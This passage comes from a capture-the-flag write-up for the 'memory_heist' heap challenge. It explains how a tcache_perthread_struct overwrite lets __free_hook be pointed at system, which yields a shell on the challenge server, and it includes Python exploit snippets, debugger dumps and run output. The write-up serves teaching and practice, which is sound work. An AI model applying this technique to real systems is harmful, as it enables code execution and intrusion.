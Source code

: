 `idx` 0 now contains the allocation at the start of the heap that contains the `tcache_perthread_struct`. This is responsible for keeping all bins, and a count of how many chunks remain in each bin.

Another thing this overwrites is a copy of the `__free_hook` that came just after our `chunks`

Next, we `free` 0, this makes the `tcache_perthread_struct` chunk available, and we promptly use it and overwrite its contents:

```py
    alloc(1, 0x280, b'\1'*0x80 + p64(libc_base + 0x1eeb20))
```
We need to specify a size that is close to 0x290 - the size of the allocation to get it back, but once we do:

```
{
  counts = {257 <repeats 64 times>},
  entries = {0x7efd61112b20 <__after_morecore_hook>, 0x0 <repeats 14 times>, 0x5617bf9694c0, 0x0 <repeats 48 times>}
}
```

We overwrite every single entry inside our `counts` of our `tcache_perthread_struct` such that each bin has one chunk inside it, and this enables us to remove the `__after_morecore_hook` allocation within libc from here.

Now, at `__after_morecore_hook+8` is a bit of a surprise:

```
pwndbg> x/gx &__after_morecore_hook
0x7efd61112b20 <__after_morecore_hook>: 0x0000000000000000
pwndbg> x/gx 0x7efd61112b20+8
0x7efd61112b28 <__free_hook>:   0x0000000000000000
pwndbg>
```

As you can see, from here we are able to overwrite `__free_hook` in libc, lets see how thats done:

```py
alloc(2, 0x16, b'/bin/sh\0'+p64(libc_base + 0x55410))
# Do it xPPPP
sice(2)
p.interactive()
```

First, this will overwrite `__after_morecore_hook` with the string "/bin/sh\0" which (luckily) is exactly 8 bytes. After that we overwrite `__free_hook` with the address of `__libc_system`.

Now when we call `sice(2)` we will call `system` with our chunk 2, and since chunk 2 points directly at `__after_morecore_hook`, we will call `system("/bin/sh\0");`.

Lets test:

```
root@nomu:~/D/I/memory_heist
❯❯ python sol.py
[+] Opening connection to 35.244.10.136 on port 10253: Done
[b'', b'7ffee915e500', b'58(nil)', b'9', b'9', b'560b2b7c51b0', b'b', b'1', b'560b2d5ae605', b'a61', b'a92f19ee774b4000', b'7ffee9160bf0', b'560b2b7c58b7', b'7ffee9160ce0', b'3(nil)', b'7f062845d0b3', b'7f06286576201. Allocate']
Heap base: 0x560b2d5ac000
Pie leak: 0x560b2b7c4000
Libc base: 0x7f0628436000
[*] Switching to interactive mode
$ ls
flag
ld.so
libc.so.6
memory-heist
ynetd
$ cat flag
```